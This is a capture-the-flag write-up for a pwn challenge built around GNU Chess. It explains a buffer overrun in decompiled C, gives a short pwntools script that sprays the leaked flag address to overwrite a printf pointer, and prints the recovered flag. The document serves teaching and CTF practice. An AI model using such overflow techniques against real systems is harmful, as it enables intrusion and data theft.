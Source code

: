 # NCEP_BOTEZ

For this challenge, we are given a binary that is very similar looking to the one from NCEP_XQC. 
Running the program there is that same GNU chess game that we can interact with, but this time we have no control over the command line arguments, so no injection. Messing around with the program we can see that the only place we have any sort of control is when we make our move:

```
flag loaded at 0x562c0e2e8260
executing command: /usr/games/gnuchess -g -m
GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : 
```

We are also given the location in memory of where the flag is loaded in at, which gives us a clue that whatever our payload is going to be must include it. At this point we started to do some static analysis to see where we could exploit something.

Since there is only one place in the program where we can put in user input, we started our reverse engineering there:

```c++
void get_input(long param_1)

{
  memset((void *)(param_1 + 0x110),0,0x100);
  fgets((char *)(param_1 + 0x110),0x500,stdin);
  return;
}
```

Interseting, it looks like we do an `fgets` to param_1 plus an offset, but `param_1` is a variable that was passed into this function, so we followed that parameter up to see where it came from. Eventually, we were led to the main function of the program where we can see where it was initilized:

```c++
undefined8 main(void)

{
  void *__ptr;
  void *__ptr_00;
  
  __ptr = (void *)load_flag();
  __ptr_00 = malloc(0x21c);
  init_game(__ptr_00);
  printf("executing command: %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  launch_gnuchess(__ptr_00);
  thread_handler(__ptr_00);
  printf("finished executing command %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  free(__ptr_00);
  free(__ptr);
  return 0;
}
```

So now we know that `void *__ptr_00` is our `param_1`, but what is interesting here is how much it is being reused. We can see that it is used in the first `printf` to print the command that was excecuted, but then it gets passed into the `thread_handler` function, which is what eventually leads to our `fgets` being called. So the same pointer holding the string of our command is also being used for the `fgets`. This normally wouldn't be a problem since a null terminator is used to mark the end of a string, but here we see that quite a large buffer was used to allocate this particular char array. Maybe if we fill up that buffer and put the address of our flag in the string, we can make the second `printf` print the flag. Let's try it out:

```python
from pwn import *
import os, sys

io = remote('ctf.ropcity.com', 31315)

io.recvuntil("flag loaded at ")
addr = int(io.recvline(), 16)

flag = p64(addr)

io.recvuntil("White (1) : ")

payload = flag*100

io.sendline(payload)
io.interactive()
```

And running it we get the flag: 
`osu{ro$eN_w1LL_not_8e_th1$_4givinG}`